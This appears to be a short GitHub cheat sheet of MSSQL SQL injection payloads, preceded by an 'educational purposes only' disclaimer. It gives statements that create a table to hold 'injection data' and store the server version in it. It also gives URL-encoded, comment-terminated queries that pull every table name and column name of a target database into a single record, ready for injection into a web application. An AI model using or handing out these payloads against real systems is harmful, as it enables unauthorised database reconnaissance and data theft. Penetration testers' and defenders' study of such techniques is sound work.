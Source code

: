 
Warning
==============

All the information provided on this site is for educational purposes only.

The site or the authors are not responsible for any misuse of the information.

You shall not misuse the information to gain unauthorized access and/or write malicious programs.

These information shall only be used to expand knowledge and not for causing malicious or damaging attacks.

MSSQL Server Useful Queries and notes
===========
############## CREATING A TABLE TO STORE INJECTION DATA ##############

Create a table to inject into:
```sql
CREATE TABLE YOUNAMEYOURTABLE ( ID int IDENTITY(1,1) PRIMARY KEY,  data varchar(8000));--
```
Insert data into your table:
```sql
insert into YOUNAMEYOURTABLE (data) Select @@Version--
```
Grab All the Database Tables into 1 record separated by a ';'

if not using a web application, replace the %2b with a +
```sql
%2bSTUFF((SELECT '; ' %2b TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 
'BASE TABLE' AND TABLE_CATALOG='REPLACEME' FOR XML PATH('')), 1, 1, '')--
```
Grab All the Table Columns into 1 record separated by a ';'

if not using a web application, replace the %2b with a +
```sql
SELECT 'PutTheTableNameHereForReference: ' %2bSTUFF((SELECT '; ' 
%2b column_name FROM TheDatabaseYouWantToQueryFrom.INFORMATION_SCHEMA.COLUMNS where TABLE_NAME='REPLACEME' 
FOR XML PATH('')), 1, 1, '')--
```
